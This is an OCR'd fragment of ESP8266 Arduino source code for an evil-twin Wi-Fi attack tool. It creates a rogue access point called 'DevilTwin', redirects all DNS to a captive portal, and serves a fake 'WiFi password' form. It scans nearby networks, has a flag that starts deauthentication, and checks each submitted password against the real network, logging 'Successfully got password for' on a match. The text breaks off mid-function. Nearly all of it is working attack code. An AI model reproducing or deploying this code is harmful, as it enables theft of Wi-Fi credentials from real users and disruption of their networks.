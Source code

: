 String footer() {
  return "</div><div class=q><a>&#169; All rights reserved.</a></div>";
}

String index() {
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action='/' method=post><label>WiFi password:</label>" +
         "<input type=password id='password' name='password' minlength='8'></input><input type=submit value=Continue></form>" + footer();
}

void setup() {

  Serial.begin(115200);
  WiFi.mode(WIFI_AP_STA);
  wifi_promiscuous_enable(1);
  WiFi.softAPConfig(IPAddress(192, 168, 4, 1) , IPAddress(192, 168, 4, 1) , IPAddress(255, 255, 255, 0));
  WiFi.softAP("DevilTwin", "12345678");
  dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));

  webServer.on("/", handleIndex);
  webServer.on("/result", handleResult);
  webServer.on("/admin", handleAdmin);
  webServer.onNotFound(handleIndex);
  webServer.begin();
}
void performScan() {
  int n = WiFi.scanNetworks();
  clearArray();
  if (n >= 0) {
    for (int i = 0; i < n && i < 16; ++i) {
      _Network network;
      network.ssid = WiFi.SSID(i);
      for (int j = 0; j < 6; j++) {
        network.bssid[j] = WiFi.BSSID(i)[j];
      }

      network.ch = WiFi.channel(i);
      _networks[i] = network;
    }
  }
}

bool hotspot_active = false;
bool deauthing_active = false;

void handleResult() {
  String html = "";
  if (WiFi.status() != WL_CONNECTED) {
    if (webServer.arg("deauth") == "start") {
      deauthing_active = true;
    }
    webServer.send(200, "text/html", "<html><head><script> setTimeout(function(){window.location.href = '/';}, 4000); </script><meta name='viewport' content='initial-scale=1.0, width=device-width'><body><center><h2><wrong style='text-shadow: 1px 1px black;color:red;font-size:60px;width:60px;height:60px'>&#8855;</wrong><br>Wrong Password</h2><p>Please, try again.</p></center></body> </html>");
    Serial.println("Wrong password tried!");
  } else {
    _correct = "Successfully got password for: " + _selectedNetwork.ssid + " Password: " + _tryPassword;
    hotspot_active = false;
    dnsServer.stop();
    int n = WiFi.softAPdisconnect (true);
    Serial.println(String(n));
    WiFi.softAPConfig(IPAddress(192, 168, 4, 1) , IPAddress(192, 168, 4, 1) , IPAddress(255, 255, 255, 0));